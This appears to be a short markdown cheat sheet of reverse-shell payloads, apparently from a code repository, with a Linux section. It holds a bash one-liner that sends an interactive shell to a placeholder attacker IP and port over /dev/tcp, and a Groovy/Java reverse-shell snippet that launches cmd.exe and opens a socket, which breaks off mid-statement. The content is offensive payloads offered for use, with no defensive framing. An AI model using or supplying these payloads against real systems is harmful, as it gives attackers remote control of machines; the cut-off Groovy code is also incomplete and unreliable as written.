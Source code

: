 # Linux

## Reverse Bash

```bash
sh -i >& /dev/tcp/<AttackerIP>/<Port> 0>&1
```

## Groovy

NOTE: Java reverse shell also work for Groovy

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(h
```
